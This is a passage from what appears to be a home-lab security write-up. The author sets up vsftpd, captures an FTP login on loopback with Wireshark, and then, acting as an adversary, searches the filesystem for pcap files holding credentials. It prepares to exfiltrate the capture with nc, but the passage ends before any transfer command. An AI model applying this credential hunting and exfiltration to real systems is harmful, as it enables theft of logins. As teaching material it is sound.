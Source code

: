 Once done, save and close the `/etc/vsftpd.conf` file.

Run the service and check its status:

```shell
sudo systemctl enable vsftpd.service && sudo systemctl restart vsftpd.service && sudo systemctl status vsftpd.service
```

Now run wireshark in the localhost interface card:

```shell
sudo wireshark
```

Select the loopback interface:

{{< image src="/images/posts/wireshark-loopback.png" caption="Wireshark Loopback" src_s="/images/posts/wireshark-loopback.png" src_l="/images/posts/wireshark-loopback.png" >}}

Test FTP connection locally:

```shell
user@pwn:~$ ftp localhost
Connected to localhost.
220 (vsFTPd 3.0.3)
Name (localhost:user): user
331 Please specify the password.
Password: # pass321
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

Capture the FTP packets in the loopback interface and follow the TCP stream and save the capture. Then change the ownership of the file to our user and group:

```shell
user@pwn:~$ sudo chown user:user /home/user/Desktop/ftp-creds.pcapng
```

Now from the adversary's perspective, we can enumerate pcap files:

```shell
user@pwn:~$ find / -name '*.pcap*' 2>/dev/null | grep -v snap
/home/user/Desktop/ftp-creds.pcapng
/usr/share/mime/application/vnd.tcpdump.pcap.xml
```

We found the file `/home/user/Desktop/ftp-creds.pcapng` let's attempt to transfer this file to our adversary host.

The last time we did a file transfer we used `scp`, this time around I'm going to use `nc`  just to keep things different:

```shell
user@pwn:~$ which nc
/usr/bin/nc
```
